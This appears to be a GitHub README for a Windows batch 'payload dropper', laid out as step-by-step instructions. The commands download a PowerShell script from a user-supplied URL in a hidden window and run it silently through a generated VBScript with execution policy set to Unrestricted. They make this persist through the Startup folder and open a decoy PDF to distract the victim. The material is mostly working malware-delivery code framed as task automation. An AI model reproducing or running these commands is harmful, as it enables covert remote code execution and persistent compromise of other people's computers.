 # batch_payload_dropper

This batch script, is designed to automate certain tasks during system startup by utilizing the Windows Startup mechanism. It involves downloading a PowerShell script and a PDF document from specified URLs and silently executing the PowerShell script upon system startup.

## Usage

1. **Downloading and Execution Steps:**
   - Change directory to the user's temporary folder:
     ```batch
     cd "%USERPROFILE%\AppData\Local\Temp\"
     ```

   - Create a VBScript file (`run.vbs`) to run the PowerShell script (`script.ps1`) silently:
     ```batch
     echo command = "powershell.exe -nologo -ExecutionPolicy Unrestricted -File %temp%\script.ps1" >run.vbs
     echo set shell = CreateObject("WScript.Shell") >>run.vbs
     echo shell.Run command,0 >>run.vbs
     ```

   - Download the PowerShell script (`script.ps1`) from your desired URL using PowerShell:
     ```batch
     powershell.exe -WindowStyle hidden wget <your_script_url> -OutFile %TEMP%\script.ps1
     ```

   - Download other necessary files similarly, e.g., a PDF document:
     ```batch
     powershell.exe -WindowStyle hidden wget <your_pdf_url> -OutFile %TEMP%\document.pdf
     ```

2. **Setting up Autorun:**
   - Change directory to the user's Startup folder:
     ```batch
     cd "%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
     ```

   - Create a batch file (`autorun.bat`) to run the VBScript (`run.vbs`) on startup:
     ```batch
     echo wscript %USERPROFILE%\AppData\Local\Temp\run.vbs > autorun.bat
     ```

   - Start the `autorun.bat` script in the background using `start` command:
     ```batch
     start /B autorun.bat
     ```

3. **Open the PDF Document:**
   - Change directory back to the user's temporary folder:
     ```batch
     cd "%USERPROFILE%\AppData\Local\Temp\"
     ```

   - Open the PDF document (`Readme.pdf`) in the default PDF reader:
     ```batch
     start /max Readme.pdf
     ```

## Customization

- You can customize the URLs to download the PowerShell script and other files by replacing `<your_script_url>` and `<your_pdf_url>` with your desired URLs.

